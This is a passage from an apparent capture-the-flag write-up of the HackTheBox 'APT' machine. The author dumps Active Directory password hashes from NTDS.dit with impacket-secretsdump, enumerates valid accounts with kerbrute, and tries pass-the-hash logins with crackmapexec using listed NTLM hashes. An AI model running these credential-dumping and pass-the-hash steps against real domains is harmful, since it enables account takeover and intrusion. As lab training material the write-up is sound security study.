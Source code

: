 <br />
<img src="{{ site.img_path }}/apt_writeup/APT_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/apt_writeup/APT_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have the **Domain usernames** and **passwords** I am going to take advantage of the **Kerberos** service available (port **88**) and use [`kerbrute`](https://github.com/ropnop/kerbrute){:target="_blank"} to check which ones are valid.  First I have to sort a bit the information to create a file with only the usernames and then run the script, I get that <ins>three accounts are correct</ins>, but if I use `crackmapexec` to now validate the user and its corresponding hash I don't have satisfactory results. So I think of taking each valid username from the domain and try with all the hashes I have available, but at some point the requests are blocked, maybe due to some security configuration to avoid brute force attacks.

> To enumerate usernames, **Kerbrute** sends **TGT** requests with no pre-authentication. If the **KDC** responds with a **PRINCIPAL UNKNOWN** error, the username does not exist. However, if the **KDC** prompts for pre-authentication, we know the username exists and we move on. This does not cause any login failures so it will not lock out any accounts. This generates a **Windows** event **ID 4768** if Kerberos logging is enabled.

```bash
impacket-secretsdump LOCAL -ntds Active\ Directory/ntds.dit -system registry/SYSTEM | grep aad3b435b51404eeaad3b435b51404ee
impacket-secretsdump LOCAL -ntds Active\ Directory/ntds.dit -system registry/SYSTEM | grep aad3b435b51404eeaad3b435b51404ee > hashes
ncat hashes
cat hashes | awk '{print $1}' FS=':'
cat hashes | awk '{print $1}' FS=':' | sort -u > users.txt

cat ../nmap/targetedIPv6 | grep kerberos
kerbrute --help
#     --> userenum      Enumerate valid domain usernames via Kerberos
#     -->  --dc string          The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
#     --> -d, --domain string      The full domain to use (e.g. contoso.com)
kerbrute userenum -d htb.local users.txt
#   --> Couldn't find any KDCs for realm HTB.LOCAL. Please specify a Domain Controller
kerbrute userenum --dc apt -d htb.local users.txt
#   --> APT$@htb.local
#   --> Administrator@htb.local
#   --> henry.vinson@htb.local

cat hashes | grep -E 'APT|Administrator|henry.vinson'
crackmapexec smb apt -u Administrator -H 2b576acbe6bcfda7294d6bd18041b8fe
crackmapexec smb apt -u 'APT$' -H b300272f1cdab4469660d55fe59415cb
crackmapexec smb apt -u 'henry.vinson' -H 2de80758521541d19cabba480b260e8f
crackmapexec smb --help
#   --> -H HASH [HASH ...], --hash HASH [HASH ...] NTLM hash(es) or file(s) containing NTLM hashes

cat hashes | awk '{print $4}' FS=":" | sort -u > hashntlmv1
```